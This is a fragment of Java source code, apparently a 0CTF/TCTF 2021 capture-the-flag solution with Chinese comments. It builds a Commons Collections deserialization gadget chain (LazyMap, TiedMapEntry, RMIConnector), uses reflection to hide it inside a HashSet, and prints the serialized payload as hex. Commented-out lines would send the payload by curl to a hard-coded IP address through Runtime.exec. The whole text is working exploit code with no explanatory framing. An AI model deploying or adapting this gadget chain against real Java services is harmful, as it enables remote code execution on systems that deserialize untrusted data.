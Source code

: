 ```java
        Map hashMap = new HashMap();
        Map lazyMap = LazyMap.decorate(hashMap, transformer);//实例化lazymap
        //
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        //通过hashset去触发。
        HashSet hashset = new HashSet(1);
        hashset.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap hashset_map = (HashMap) f.get(hashset);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        f2.setAccessible(true);
        Object[] array = (Object[])f2.get(hashset_map);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedMapEntry);


        oos.writeUTF("0CTF/TCTF");
        oos.writeInt(2021);
        oos.writeObject(hashset);
        oos.close();

        byte[] exp = baos.toByteArray();
        String data = com.tctffinal.demo.Utils.bytesTohexString(exp);
        System.out.println(data);
        //String cc = "curl -v http://121.4.155.228/buggy -H c014:c014 -d data="+data;
        //System.out.println(cc);
        //java.io.InputStream in = Runtime.getRuntime().exec(cc).getInputStream();
        //java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
        //String output = s.hasNext() ? s.next() : "";
        //System.out.println(output);
    }
}
```
